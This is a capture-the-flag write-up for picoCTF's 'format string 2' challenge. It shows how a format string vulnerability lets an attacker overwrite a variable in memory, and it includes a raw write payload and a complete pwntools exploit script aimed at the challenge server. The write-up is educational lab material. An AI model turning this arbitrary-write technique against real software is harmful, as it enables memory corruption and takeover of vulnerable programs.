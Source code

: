# format string 2
Unlike the previous format string challenge, we now want to write data using the same exploit.

In this case we need to change the value of variable `sus` from `0x21737573` to `0x67616c66`.

The hint is that pwntools can help with this. Looking at the documentaiton the problem is exactly the same.

We first have to find the address of `sus` which we can do using `objdump -d vuln | grep "sus"`. This gives us that `sus` is located in `0x404060`. 

Then we follow the documentation of pwntools. We automatically find the offset (14) where it is on the stack and then pwntools creates the payload: 
```
%102c%20$llnc%21$hhn%5c%22$hhn%245c%23$hhnaaaaba`@@\x00\x00\x00\x00\x00c@@\x00\x00\x00\x00\x00a@@\x00\x00\x00\x00\x00b@@\x00\x00\x00\x00\x00
```

and that changes the values, giving us the flag.

Solution code:

```
from pwn import *

host = "rhea.picoctf.net"
port = 51733


context.binary = ELF("./vuln")

p = remote(host, port)

def exec_fmt(payload):
    p = remote(host, port)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

print(offset)

# old addr, new addr
# found old addr by objdump -d vuln | grep "sus"
payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

print(payload)

p.sendline(payload)

flag = p.recvall()

print("flag:", flag)
```